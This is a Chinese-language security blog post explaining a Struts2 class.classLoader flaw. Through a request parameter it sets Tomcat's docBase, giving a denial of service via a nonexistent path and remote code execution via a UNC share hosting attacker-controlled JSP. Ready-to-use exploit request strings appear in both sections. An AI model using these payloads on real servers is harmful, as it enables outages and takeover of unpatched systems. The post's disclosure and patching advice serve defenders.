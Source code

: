 # Struts2 Tomcat class.classLoader.resources.dirContext.docBase赋值造成的DoS及远程代码执行利用!


0x00 背景
-------

* * *

最近大家都在玩Struts2的class.classLoader.官方在S-20的两漏洞,一个commons-fileupload造成的DoS,这个就是让cpu慢点,不打补丁觉得也无所谓.另外一个,就是class.classLoader允许对象赋值.

看到大家总是在tomcat8上寻求利用,觉得很鸡肋(用户的应用更换Tomcat真没那么快),版本限制就是软肋.顿时,哥娇躯一震,发个无版本限制的利用,让大家提提神!

直接进主题,是可以对Tomcat的docBase属性直接赋值,`class.classLoader.resources.dirContext.docBase=x`

docBase这个参数,是Tomcat进行应用目录映射路径配置的,如果赋值的地址不存在会发生什么?

0x01 细节
-------

* * *

### 利用1:造成DoS(应用映射路径不存在,导致应用404)

如图:

![2014040410310192682.png](http://drops.javaweb.org/uploads/images/32548f88da92af8ea1fb571afd0ec634e5aa7993.jpg)

给当前应用目录,赋个不存在的地址:

```
?class.classLoader.resources.dirContext.docBase=不存在路径 

```

图:

![2014040410324488403.png](http://drops.javaweb.org/uploads/images/34da4f14dc3f2777e34ad780977b63345a552322.jpg)

![2014040410344310185.png](http://drops.javaweb.org/uploads/images/8f0ae06df65724b0eb57adbeaf504b4b4b77374f.jpg)

这样当前应用,以后不管访问哪个地址都是404了(因为映射的目录不存在),造成DoS效果!

### 利用2:远程代码执行

还是这个参数,既然可以指向任意地址,如果指向的地址映射目录,是攻击者可控的目录,那就是远程代码执行了.

docBase参数有三种地址路径部署方式:

```
1.相对路径:以Tomcat的webapps目录为更目录
2.绝对路径:如,c://web/部署的应用目录

```

但,还有一种地址配置方式,大家可能不会常用,那就是UNC path(tomcat是支持远程网络路径方式的):

```
3.UNC path(如,远程共享一个标准的J2EE应用目录) 

```

具体看这里：[http://wiki.apache.org/tomcat/FAQ/Windows#Q6](http://wiki.apache.org/tomcat/FAQ/Windows#Q6)

这里我内网其他主机共享一个标准的J2EE应用目录，如图:

![2014040410480871738.png](http://drops.javaweb.org/uploads/images/3020d98c1799832f1921095b31c403296d1c0cb7.jpg)

![2014040410482029796.png](http://drops.javaweb.org/uploads/images/abb62a3b97a74cae7725fa389a274cfb1292a8f6.jpg)

本机访问共享：

```
//192.168.x.x/test

```

![2014040410514763954.png](http://drops.javaweb.org/uploads/images/e295a12cd8dc73f1fc3c1d6a6b2650f17b885f68.jpg)

```
http://127.0.0.1/s/example/HelloWorld.action?class.classLoader.resources.dirContext.docBase=//192.168.x.x/test 

```

这时应用的映射目录就是共享服务器的目录了,如图：

![2014040410582890074.png](http://drops.javaweb.org/uploads/images/8cc87fb82e38904794bc5a8731dfeeb8030ecfac.jpg)

**注意这里，web容器是当前服务器的，但运行的代码是共享服务器的test目录,java代码是在当前服务器编译及运行的（这里不要混淆了！！！）**

test.jsp的内容是，执行代码调用系统计算器的命令

![2014040411021566871.png](http://drops.javaweb.org/uploads/images/0fd35361cb5528b6a72780d8175f77728e35ec5d.jpg)

那如果在公网上部署一个共享目录（无任何权限限制），那就是远程代码执行了。

当然，公网上部署一个共享目录也有网络限制，可能运营商限制了共享协议，被攻击服务器的操作系统是否支持UNC path等等，这里只是思路。主要是分享一下！

//用户还是老实打补丁,不要心存幻想!